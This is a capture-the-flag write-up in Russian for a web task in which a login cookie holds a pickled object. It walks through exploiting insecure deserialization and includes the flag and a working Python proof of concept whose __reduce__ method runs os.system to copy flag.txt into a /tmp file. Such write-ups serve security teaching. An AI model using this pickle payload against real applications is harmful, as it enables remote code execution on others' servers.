

# ЗаБАЙТили на огурцы
## Описание 
Зато у каждого свой файлик... 

## Flag
kxctf{1n$3cUR3_D3$3r1@l1Z@t10n_1s_D@ng3R0u$}

## Write-Up

1. Регестрируемся


2. Логинимся и видим, что каждому пользователю присваивается файлик в директории /tmp



3. Исходя из названия таска и обратив внимание на cookie понимаем, что это сериализованная строка ( препологаем, что pickle)
4. Через уязвимость небезопасной десериализации можем получить исполнение команд и видеть их результат, записав его в файлик который нам пренадлежит
5. Задача, получившуюся с помощью poc-а ниже, строку положить в cookie и перейти на `/`, что приведет к исполнению кода


6. После этого получаем 500 ошибку, но это уже не важно, ведь код был выполнен. Возвращаем легитимное значение cookie, идем на `/` , видим флаг ) 


---

poc для генерации cookie

```python
import pickle
import base64
from typing import Any
import requests

class exploit(object):
    def __reduce__(self) -> str | tuple[Any, ...]:
        import os
        return(os.system,(b"cat flag.txt > /tmp/74051960-2bf7-4c37-91dd-a6c675d83723",
                          ))
    
def send_payload():
    payload = exploit()
    payload = base64.b64encode(pickle.dumps(payload))
    print(payload)

if __name__ == "__main__":
    send_payload()
```